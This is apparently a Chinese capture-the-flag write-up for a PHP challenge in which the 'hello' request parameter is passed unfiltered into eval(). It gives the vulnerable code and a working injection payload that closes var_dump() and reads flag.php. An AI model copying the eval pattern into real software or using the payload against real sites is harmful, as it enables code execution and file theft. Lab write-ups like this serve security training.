

## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们可以直接看到php主要的逻辑代码：

```php
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__);
```

3.我们可以看到这次题目是直接输出hello参数的值，很明显爆破是行不通的，题目提示flag也不在变量中，所以超全局变量也没什么作用，因为对输入没有过滤，考虑闭合`var_dump($a)`函数并构造其他语句，因为flag存在flag.php里，于是考虑打印整个flag.php页面。构造语句`?hello=);var_dump(file(“flag.php”));//`即可得到flag

4.所以payload为：

```php
challenge12.php?hello=);var_dump(file(“flag.php”));//
```


